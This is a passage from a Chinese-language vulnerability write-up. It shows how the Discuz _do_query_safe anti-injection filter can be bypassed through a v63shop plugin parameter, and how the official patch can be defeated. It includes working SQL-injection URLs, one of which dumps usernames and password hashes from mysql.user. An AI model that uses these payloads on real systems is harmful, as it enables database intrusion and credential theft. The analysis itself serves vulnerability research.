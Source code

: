 这里利用如下方式绕过_do_query_safe函数过滤，如下所示：

```
http://localhost/discuz/plugin.php?id=v63shop:goods&pac=info&gid=@`'` union select @`'`,2,3,4,5,6,7,concat(user,0x3a,password),9,10,11,12,13,14 from mysql.user

```

这里跟踪一下执行的过程，如图所示：

![enter image description here](http://drops.javaweb.org/uploads/images/2003c3f607231a5db70bb9ef2397d5949d1ea872.jpg)￼ 这里有一个if判断，重点看这句

```
$clean = preg_replace("/'(.+?)'/s", '', $sql);

```

它会将$sql中单引号引起来的字符串省略掉，所以我们可以用绕过dede防住ids的思路，利用

```
@`'` union select @`'`

```

这样的方法，在下面的过滤中省掉union select，这里跟踪一下，如图所示： ￼![enter image description here](http://drops.javaweb.org/uploads/images/d17c063f0cfcb68085f9e01bdf6b4d384a294fea.jpg)

这样便绕过了_do_query_safe函数检测，成功绕过防注入，如图所示： ￼![enter image description here](http://drops.javaweb.org/uploads/images/1a3eaa62cd4d2bf158a73c4ccb7d0dccb46bd45f.jpg)

不过后来Discuz官方发布了一个修复补丁，但并没用从根本上解决问题。官方的修复代码如下： ￼![enter image description here](http://drops.javaweb.org/uploads/images/e8f6cd793205d25ee484e6c3424bd6dd00cab9a4.jpg)

加了一个判断，过滤字符串中的@，但是始终没有修复根本问题，关键是上边的那个if判断会将单引号之间的内容（包括单引号）替换为空，代码如下：

```
if (strpos($sql, '/') === false && strpos($sql, '#') === false && strpos($sql, '-- ') === false) {
    $clean = preg_replace("/'(.+?)'/s", '', $sql);
}

```

这里我只要稍做一下变换就可以让@字符消失，从而绕过它的过滤，利用如下所示：

```
http://localhost/discuz/plugin.php?id=v63shop:goods&pac=info&gid=`'` or @`''` union select 1 from (select count(*),concat((select database()),floor(rand(0)*2))a from information_schema.tables group by a)b where @`'`

```

这里我引入了`'`用来隐藏第一个@字符，并将第一个@`'`替换为@`''`，这样便可以替换掉第二个@，这里我们跟踪一下代码，如图所示： ￼![enter image description here](http://drops.javaweb.org/uploads/images/e852e5532f3ffb48e24c74865f70151470ec61b6.jpg)

可以看到$clean变为

```
select * from pre_v63_goods where `id` =``

```
